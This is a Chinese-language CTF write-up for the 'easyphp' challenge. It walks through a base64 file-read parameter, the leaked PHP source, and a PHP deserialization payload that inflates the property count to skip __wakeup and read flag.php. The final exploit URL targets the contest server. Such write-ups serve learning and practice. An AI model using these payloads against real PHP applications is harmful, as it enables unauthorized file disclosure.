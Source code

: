 # 网络内生安全试验场——CTF答题夺旗赛（第二季）

# easyphp

## Analyze

查看网页源码

	<html>
		<head>
		</head>
		<body>
			<img src="show.php?img=aGludC5qcGc=" width="100%">
		</body>
	</html>

访问页面时发现有一张图片，查看图片地址

	http://120.55.43.255:13005/show.php?img=aGludC5qcGc=

`aGludC5qcGc=`base64解码得到`hint.jpg`，由此可以得知`show.php`是将参数`img`经base64解码得到的值进行读文件操作。

尝试使用

	php://filter/read=convert.base64-encode/resource=index.php

base64解码值读取源码

	http://120.55.43.255:13005/show.php?img=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWluZGV4LnBocA==

返回"File not found!"。。。

## Get Source

纠结了一下下，不知道是怎么回事，然后又尝试直接将`index.php`base64编码，可看到注释掉的php源码，居然成功了，看来是想复杂了。

上源码：

index.php

	<?php 
	  require_once('hint.php');
	  $x = new hint();
	  isset($_GET['class']) && $g = $_GET['class'];
	  if (!empty($g)) {
	    $x = unserialize($g);
	    echo $x;
	  }
	?>

发现hint.php

	<?php
	  error_reporting(0);
	  //flag is in flag.php
	  class hint
	  { 
	    public $file='';
	    function __destruct()
	    { 
	      if(!empty($this->file)) 
	      {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }
	    }  
	    function __wakeup(){ 
	      $this-> file='index.php'; 
	    } 
	    public function __toString(){
	      return '' ;
	    }
	  } 
	?>

源码中的注释部分提示flag在flag.php中

想尝试用show.php直接读取flag.php，分析show.php：

	<?php
	  $f = $_GET['img'];
	  if (!empty($f)) {
	    $f = base64_decode($f);
	    if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
	    && stripos($f,'flag')===FALSE) {
	      readfile($f);
	    } else {
	      echo "File not found!";
	    }
	  }
	?>

发现`flag`被过滤了，而且`/`也被绕过了，这也是为什么之前使用`php://filter`出错的原因。

尝试绕过，不过过滤比较严格，绕过有点难度，转而分析其他两个文件。

## Unserialize

涉及到**反序列化**：`$x = unserialize($g);`,发现在hint.php中

	function __destruct()
    { 
      if(!empty($this->file)) 
      {
       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
          show_source(dirname (__FILE__).'/'.$this ->file);
       else      die('Wrong filename.');
      }
    } 

存在文件读取，可以构造**Payload**使得`$this-> file = "flag.php"`，由

	<?php
	  error_reporting(0);
		//flag is in flag.php
		class hint{ 
	    public $file='';
	    function __destruct(){ 
	      if(!empty($this->file)) {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }}  
	    function __wakeup(){ $this-> file='index.php'; } 
	    public function __toString(){return '' ;}
	  } 
	  $a = new hint();
	  $a->file = "flag.php";
	  echo serialize($a);

得到字符串 `O:4:"hint":1:{s:4:"file";s:8:"flag.php";}`，但是这样并不能读取到flag.php文件，因为在序列化时，`__wakeup()`函数又会将`"index.php"`赋值给`$this-> file`.

这里涉及的另一个知识，是php本身的一个bug，详细信息可以查询[`php bug 72663`](https://www.baidu.com/s?wd=php%20bug%2072663)，这个 bug 的原理是：当反序列化字符串中，表示**属性个数的值大于真实属性个数**时，会跳过`__wakeup` 函数的执行。

于是将hint值改为2

![](./index_files/ichunqiuCTF_easyphp.png)

Payload：

	http://120.55.43.255:13005/index.php?class=O:4:"hint":2:{s:4:"file";s:8:"flag.php";}

